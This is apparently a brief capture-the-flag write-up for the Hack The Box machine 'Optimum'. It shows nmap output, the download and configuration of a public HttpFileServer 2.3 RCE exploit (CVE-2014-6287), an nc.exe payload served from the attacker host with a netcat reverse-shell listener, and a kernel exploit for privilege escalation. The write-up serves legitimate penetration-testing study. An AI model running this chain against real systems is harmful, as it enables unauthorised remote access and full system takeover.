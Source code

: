 ```yaml
---
layout: post
title: "optimum"
categories: HTB
---
```


```bash
nmap -v -sV 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 04:26 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 04:26
Scanning 10.10.10.8 [4 ports]
Completed Ping Scan at 04:26, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:26
Completed Parallel DNS resolution of 1 host. at 04:26, 0.01s elapsed
Initiating SYN Stealth Scan at 04:26
Scanning 10.10.10.8 [1000 ports]
Discovered open port 80/tcp on 10.10.10.8
Completed SYN Stealth Scan at 04:27, 16.32s elapsed (1000 total ports)
Initiating Service scan at 04:27
Scanning 1 service on 10.10.10.8
Completed Service scan at 04:27, 6.48s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.8.
Initiating NSE at 04:27
Completed NSE at 04:27, 0.99s elapsed
Initiating NSE at 04:27
Completed NSE at 04:27, 0.93s elapsed
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```
Only one port is open. Nmap revale the Http Version.
With that version i found a RCE exploit in:
```
[link]
(https://gist.github.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9)
```

Download the exploit:
```bash 
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py

```

Before launcing the exploit i first edited as follows:
```python
    ip_addr = "10.10.14.7:8000" #local IP address
    ip_addr1="10.10.14.7"
    local_port = "443" # Local Port number
```

In another terminal i hosted nc.exe and started python server in the same working directory:
```bash
    python -m SimpleHTTPServer
```
And another terminal listening in port 443:
```bash
nc -lvp 443
```
Finally executing the exploit give a shell:
```bash
python cve-2014-6287.py 10.10.10.8 80
```

#Escalation
We can escalate in two way:
```
[link]
(https://gist.github.com/intrd/6dda33f61dca560e6996d01c62203374)
```
And 
```
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098
```

For quick escalation download bfill from second link, upload to the box and execute like:
```bash
.\bfill.exe 
```
And you are root :).

![GitHub Logo](../images/Screenshot.png)


Note: I have quickly, wrote this note as i am preparing for OSCP!

Thanks!

